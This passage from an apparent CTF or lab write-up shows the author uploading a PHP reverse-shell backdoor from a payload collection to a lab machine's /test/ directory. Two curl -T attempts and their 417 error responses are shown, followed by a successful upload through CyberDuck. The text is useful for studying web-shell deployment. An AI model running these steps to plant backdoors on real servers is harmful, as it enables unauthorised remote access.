 ![assets/writeup-f069c.png](assets/writeup-f069c.png)

Okay, test file is uploaded! Time for some reverse shells.

## Getting the shell

```bash
$ cp ~/PenTest/_Payloads/payloads/fuzzdb/web-backdoors/php/php-reverse-shell.php ./
$ vi php-reverse-shell.php
$ curl -T './php-reverse-shell.php' 'http://192.168.60.128/test/'
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

Okay, my guess was that it's blocking `php` extensions.

```bash
cp php-reverse-shell.php 2
overwrite 2? (y/n [n]) y
╭─$  ~/Downloads/TMP
╰─$ curl -T './2' 'http://192.168.60.128/test/'
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

Yeah, it doesn't help.

After some thinking and lurking, I managed to upload it just by using `CyberDuck` app. Well, if it works, why not?
